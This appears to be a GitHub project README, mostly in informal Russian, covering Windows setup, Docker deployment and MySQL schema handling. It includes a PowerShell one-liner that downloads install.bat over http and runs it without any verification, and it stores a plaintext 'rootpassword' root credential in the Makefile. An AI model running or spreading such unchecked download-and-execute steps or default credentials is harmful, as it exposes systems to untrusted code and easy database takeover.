 # TechnicalSupportCenterProject

## Running an application on Windows in CommandLine
```
 powershell.exe -command "[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; $webClient = New-Object Net.WebClient; $webClient.DownloadFile('http://github.com/ParinovYT/BundleApps/releases/download/release/install.bat', 'install.bat'); "; && install.bat
```

# Человечский деплой 😋
## Чтобы изменить данные пользователя и root в бд, нужно поменять значения ENV's тута
```
vim docker/Dockerfile.database
```
```
make docker-deploy
```

## Запуск програмули 😎
```
make init
```
### `release`
```
make app-run-release
```
### `debug`
```
make app-run-debug
```
## Для того чтобы работать с базкой данных нужен пароль, который находиться в файле docker/Dockerfile.database `MYSQL_ROOT_PASSWORD`, нужно зайти в php my admin, сюда 👉 [http://localhost:8090/](http://localhost:8090/) 👈
## Поработал с базкой данных и внес туда изменения, тогда не забудь сохранить ее схему 😉
## Нужно указать пароль от root пользователя, тута
```
vim Makefile
```
```
MYSQL-ROOT-PASSWORD = rootpassword
```
## И потом выполнить команду
```
make docker-database-create-shema
```
